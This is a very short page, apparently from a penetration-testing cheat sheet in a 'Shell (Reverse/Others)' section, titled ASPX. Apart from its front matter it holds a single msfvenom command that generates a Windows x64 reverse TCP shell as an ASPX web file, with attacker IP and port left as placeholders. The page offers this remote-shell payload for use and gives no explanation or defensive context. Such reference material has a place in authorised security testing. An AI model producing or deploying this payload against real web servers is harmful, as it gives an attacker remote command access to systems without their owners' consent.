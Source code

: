 ```yaml
---
title: ASPX
parent: Shell (Reverse/Others)
layout: default
nav_order: 4
---
```


`msfvenom -f aspx -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -o shell.aspx`